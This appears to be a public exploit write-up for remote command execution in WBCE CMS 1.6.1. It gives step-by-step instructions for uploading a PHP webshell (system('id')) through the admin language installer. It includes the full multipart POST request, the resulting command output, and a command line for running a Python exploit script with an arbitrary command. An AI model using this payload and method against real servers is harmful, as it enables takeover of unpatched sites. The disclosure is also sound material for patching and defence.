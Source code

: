 ## Exploit Title: WBCE CMS Version 1.6.1 Remote Command Execution

- **Date:** 30/11/2023
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [WBCE CMS](https://wbce-cms.org/)
- **Software Link:** [WBCE CMS 1.6.1](https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.1.zip)
- **Version:** 1.6.1

![WBCE_CMS Image 1](https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/1.png)

![WBCE_CMS Image 2](https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/2.png)

### POC:

1. Login with admin credentials and click on Add-ons.
2. Navigate to Language > Install Language > [https://demos6.demo.com/admin/languages/index.php](https://demos6.demo.com/admin/languages/index.php)
3. Upload `upgrade.php` with the content `<?php echo system('id'); ?>`, then click install > [https://demos6.demo.com/admin/languages/install.php](https://demos6.demo.com/admin/languages/install.php)
4. The command execution result will be displayed: 

uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)


### Post Request:

```http
POST /admin/languages/install.php HTTP/1.1
Host: demos6.demo.com
Cookie: [cookie values]
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://demos6.demo.com/admin/languages/index.php
Content-Type: multipart/form-data; boundary=---------------------------86020911415982314764024459
Content-Length: 522
Origin: https://demos6.demo.com
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="formtoken"

5d3c9cef-003aaa0a62e1196ebda16a7aab9a0cf881b9370c
-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="userfile"; filename="upgrade.php"
Content-Type: application/x-php

<?php echo system('id'); ?>

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="submit"
```

```
-----------------------------86020911415982314764024459--

<!-- ################### Up from here: Original Code from original template ########### -->

<!-- senseless positioning-table: needed for old modules which base on class td.content -->
<div class="row" style="overflow:visible">
<div class="fg12">
<table id="former_positioning_table">
<tr>
    <td class="content">
uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)
    <div class="top alertbox_error fg12 error-box">
        <i class=" fa fa-2x fa-warning signal"></i>
                    <p>Invalid WBCE CMS language file. Please check the text file.</p>    
                    <p><a href="index.php" class="button">Back</a></p>
```

### Exploit:

To exploit this vulnerability, use the provided Python script:

```python3 Exploit.py https://demos6.demo.com/admin/ admin password 'whoami'```

